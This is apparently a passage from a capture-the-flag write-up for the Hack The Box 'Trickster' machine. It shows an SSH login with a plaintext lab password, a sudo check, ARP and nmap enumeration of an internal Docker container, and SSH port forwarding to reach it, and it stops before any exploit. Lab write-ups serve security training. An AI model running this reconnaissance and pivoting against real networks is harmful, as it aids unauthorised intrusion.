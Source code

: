 ```bash
ssh james@trickster.htb
# Password: alwaysandforever
```

### Checking Sudo Privileges

```bash
james@trickster:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on trickster.
```

### Exploring the Internal Network

```bash
arp -an
```

#### Output

```
? (10.10.10.2) at 00:50:56:b9:72:68 [ether] on eth0
? (10.10.11.30) at 00:50:56:94:a7:aa [ether] on eth0
? (172.17.0.2) at 02:42:ac:11:00:02 [ether] on docker0
```

### Nmap Scan on Docker Container

```bash
nmap -p- 172.17.0.2
```

#### Output

```
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-09-27 17:29 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00034s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 34.51 seconds
```

---

## Port Forwarding and Exploitation of Docker Container

### Setting Up Port Forwarding

```bash
ssh -L 5000:172.17.0.2:5000 james@trickster.htb
```
